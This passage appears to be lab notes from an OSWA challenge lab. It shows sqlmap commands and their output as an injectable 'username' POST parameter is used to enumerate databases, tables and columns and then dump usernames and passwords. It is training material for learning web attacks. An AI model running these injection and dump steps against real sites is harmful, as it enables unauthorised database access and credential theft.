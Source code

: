 ```bash
[04:30:33] [INFO] the back-end DBMS is MySQL       
web server operating system: Linux Debian          
web application technology: Apache 2.4.52, PHP 7.3.33                                                 
back-end DBMS: MySQL >= 5.6                        
[04:30:33] [INFO] fetching database names          
available databases [6]:                           
[*] information_schema                             
[*] mysql                                          
[*] performance_schema                             
[*] piano_protocol                                 
[*] sqli                                           
[*] sys              
```
now we test to find the `--tables` in the `piano_protocol` database
```bash
┌──(root💀gobots)-[10Dec2024 04:30:33]-[/home/…/SUT/OSWA/challenge_labs/piano_protocol]               
└─# sqlmap -r post_req.txt -p username -D piano_protocol --tables --batch    
[04:31:16] [INFO] fetching tables for database: 'piano_protocol'                                      
Database: piano_protocol                           
[2 tables]                                         
+------------------+                               
| contact_requests |                               
| users            |                               
+------------------+                               

[04:31:16] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/piano'    
[04:31:16] [WARNING] your sqlmap version is outdated           
```
now we test to find the `--columns` in the `--tables` in the `piano_protocol` database
```bash
┌──(root💀gobots)-[10Dec2024 04:31:16]-[/home/…/SUT/OSWA/challenge_labs/piano_protocol]               
└─# sqlmap -r post_req.txt -p username -D piano_protocol -T users --columns --batch
[04:31:49] [INFO] fetching columns for table 'users' in database 'piano_protocol'                     
Database: piano_protocol                           
Table: users                                       
[6 columns]                                        
+-----------+---------------+                      
| Column    | Type          |                      
+-----------+---------------+                      
| email     | varchar(255)  |                      
| firstname | varchar(255)  |                      
| id        | int(11)       |                      
| lastname  | varchar(255)  |                      
| password  | varchar(255)  |                      
| username  | varchar(3000) |                      
+-----------+---------------+           
```
now since we have the `--columns`, `--tables,` & `--dbs` we can now dump the column
- notice at the end the location of where the files are `dumped`
```bash
┌──(root💀gobots)-[10Dec2024 04:31:49]-[/home/…/SUT/OSWA/challenge_labs/piano_protocol]               
└─# sqlmap -r post_req.txt -p username -D piano_protocol -T users -C username,password --dump --batch   
back-end DBMS: MySQL >= 5.6
back-end DBMS: MySQL >= 5.6
[04:51:23] [INFO] fetching entries of column(s) 'password,username' for table 'users' in database 'piano_protocol'
```